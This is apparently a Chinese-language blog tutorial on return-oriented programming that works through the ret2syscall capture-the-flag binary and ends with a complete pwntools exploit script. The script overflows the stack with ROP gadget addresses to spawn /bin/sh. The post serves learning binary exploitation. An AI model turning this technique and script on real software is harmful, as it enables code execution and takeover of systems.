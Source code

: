 ```yaml
---
layout:     post
title:      pwn学习（三）：利用ROP执行恶意代码
subtitle:   利用栈溢出获取控制权
date:       2021-08-09
author:     Hongtai S
header-img: img/7.jpg
catalog: true
tags:
    - 漏洞
    - 二进制
    - 栈溢出
    - pwn
    - ROP
---
```

# 利用ROP执行恶意代码 #

## Return Oriented Programming(ROP)-面向返回编程 ##

以下一段汇编代码：

mov eax, 0xb

mov ebx, ["/bin/sh"]

mov ecx, 0

mov edx, 0

int 0x80

等价于C代码execve("/bin/sh", NULL, NULL)，将其转换为二进制数据可作为shellcode使用，但是当进程中开启了栈不可执行保护，将无法执行shellcode。而ROP技术可以绕过这机制：

面向返回编程（英语：Return-Oriented Programming，缩写：ROP）是计算机安全漏洞利用技术，该技术允许攻击者在安全防御的情况下执行代码，如不可执行的内存和代码签名。

在栈中若想执行获取shell的命令，但是无法通过代码注入的方式获取，可将获取shell的汇编代码分散开执行，每一小段命令称为gadget。以上面的汇编代码为例，ROP技术是这样执行获取shell的：

任然是利用栈溢出的方式，而覆盖栈的数据不是二进制的命令，而是地址和数据。想要执行mov eav, 0xb命令，可以将栈的返回地址覆盖为内存中任意一个 pop eax；ret的命令的地址，并将返回地址的下一地址继续覆盖位为0x0000000b，此时程序的执行流被劫持并且执行了与mov eax, 0xb的命令，继续覆盖，下一个指令为mov ebx, ["/bin/sh"]，只需在程序中寻找pop ebx；ret命令的地址，用这一地址覆盖栈，并用存放"/bin/sh"的地址覆盖栈的下一地址，那么此时程序成功执行了mov ebx, ["/bin/sh"]这一指令，下面的指令同理。

栈溢出前后的布局如下所示：

|覆盖前|覆盖后|
|返回地址|pop eax；ret的地址|
|正常数据|0xb|
|正常数据|pop ebx；ret的地址|
|正常数据|"/bin/sh"的地址|
|正常数据|pop ecx；ret的地址|
|正常数据|0x0|
|正常数据|pop edx；ret的地址|
|正常数据|0x0|
|正常数据|int 0x80的地址|

溢出后的栈就会控制程序执行流，最终得到系统的shell

## ret2syscall题目分析 ##

将文件ret2syscall拖入Ida中查看还原的C代码：

![1.PNG](https://i.loli.net/2021/08/09/oyPBv3q4lwt7rga.png)

发现不安全的gets()函数,能够利用栈溢出覆盖返回地址以获取一次劫持程序执行流的机会。

使用checksec查看文件详细情况：

![2.PNG](https://i.loli.net/2021/08/09/gUHAcvQxueJXhLr.png)

可以看到栈不可执行，使用ROPgadget查找可利用的gadget，找到了pop eax；ret和pop ebx；ret，但是没有找到pop ecx；ret，但是找到了pop edx ; pop ecx ; pop ebx ; ret命令，同样可以用这个命令地址覆盖栈，产生与mov ebx, ["/bin/sh"];mov ecx, 0;mov edx, 0相同的效果。最后查找int 0x80。全部指令找到。

![3.PNG](https://i.loli.net/2021/08/09/72agMvnOV5Q1xP6.png)

![4.PNG](https://i.loli.net/2021/08/09/aVHLm4bMDAZ7t3z.png)

![5.PNG](https://i.loli.net/2021/08/09/WelxQCo4bTD61ft.png)

另外，还缺少字符串"/bin/sh"的地址，在Ida中使用shift+F12查找，发现了字符串的地址：

![6.PNG](https://i.loli.net/2021/08/09/VCgt6U12niwqfWK.png)

到这里，利用ROP技术获取shell所需的全部数据和地址都已准备好，此时可以精心构造payload，理论上栈的布局前后为：

|覆盖前|覆盖后|
|返回地址|pop eax；ret的地址|
|正常数据|0xb|
|正常数据|pop edx ; pop ecx ; pop ebx ; ret的地址|
|正常数据|0x0|
|正常数据|0x0|
|正常数据|"/bin/sh"的地址|
|正常数据|int 0x80的地址|

这里注意命令pop edx ; pop ecx ; pop ebx ; ret寄存器的先后顺序，按照命令的顺序赋值给寄存器数据。

覆盖到返回地址之前，需要填充部分无用数据，这里使用gdb调试内存栈，查看输入的字符串首地址距离返回地址的距离：

![7.PNG](https://i.loli.net/2021/08/09/UIZfDXsMvp96E5w.png)

计算距离为0xa8-0x3c = 108

payload的内容为'A' * 112 + [pop eax；ret的地址] + p32(0x0000000b) + [pop edx ; pop ecx ; pop ebx ; ret的地址] + p32(0x00000000) + p32(0x00000000) + ["/bin/sh"的地址] + [int 0x80的地址]


## 编写脚本 ##

 ```python
from pwn import *

#远程连接服务器使用remote函数
#io = remote("ip", port)

#使用本地进程测试使用process函数
io = process("ret2syscall")

#接受程序的两行打印
io.recvline()
io.recvline()

pop_eax_ret_addr = p32(0x080bb196)

pop_edx_ecx_edx_ret_addr = p32(0x0806eb90)

str_addr = p32(0x080be408)

int_0x80_addr = p32(0x08049421)

#构造payload
payload = b'A' * 112 + pop_eax_ret_addr + p32(0x0000000b) + pop_edx_ecx_edx_ret_addr + p32(0x00000000) + p32(0x00000000) + str_addr + int_0x80_addr

#发送构造的数据
io.sendline(payload)

#获取shell交互
io.interactive()

```

运行脚本成功获取shell权限

![8.PNG](https://i.loli.net/2021/08/09/yrVbCptjYPUzudA.png)